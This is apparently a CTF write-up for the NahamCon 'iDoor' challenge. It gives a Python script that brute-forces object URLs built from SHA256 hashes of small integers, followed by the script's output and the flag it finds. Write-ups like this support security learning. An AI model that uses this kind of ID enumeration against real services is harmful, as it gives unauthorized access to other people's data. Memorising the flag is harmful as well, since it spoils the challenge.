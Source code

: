 ### iDoor

<details><summary>Overview</summary></details>

The service are already down, so here's my solver

```python {title="solver.py" lineNos=true lineNoStart=1}
import re
import hashlib
import requests
from bs4 import BeautifulSoup

base_url = "http://challenge.nahamcon.com:31646/"

for i in range(20):
    sha256_hash = hashlib.sha256(str(i).encode()).hexdigest()
    url = base_url + sha256_hash
    response = requests.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')
    card_body = soup.find('div', class_='card-body')
    print(f"URL: {url}")
    print(f"Response:\n{card_body}\n")

    flag = re.findall(r'flag{.*}', str(card_body))

    if flag:
        print(flag[0])
        break
```

The script bruteforces a specific URL by replacing parts of the URL with a SHA256 hash of numbers 0 to 19. For each generated URL, the script performs an HTTP GET request and looks for the `flag{.*}` pattern in the HTML response.

If the pattern is found (which means the flag has been found), the script prints the flag and stops. Otherwise, the script will continue to the next iteration until all numbers in the range have been tried. In this case, the script encountered the flag on the first iteration (number 0), so the script stopped after the first iteration.

```bash
$ python3 solver.py
URL: http://challenge.nahamcon.com:31646/5feceb66ffc86f38d952786c6d696c79c2dbc239dd4e91b46729d73a27fb57e9
Response:
<div class="card-body">
<div style="text-align: center; vertical-align: middle; height: 100%;">
<h1><b><code>flag{770a058a80a9bca0a87c3e2ebe1ee9b2}</code></b></h1>
</div>
</div>
flag{770a058a80a9bca0a87c3e2ebe1ee9b2}
```

<details><summary>FLAG</summary></details>

<br>
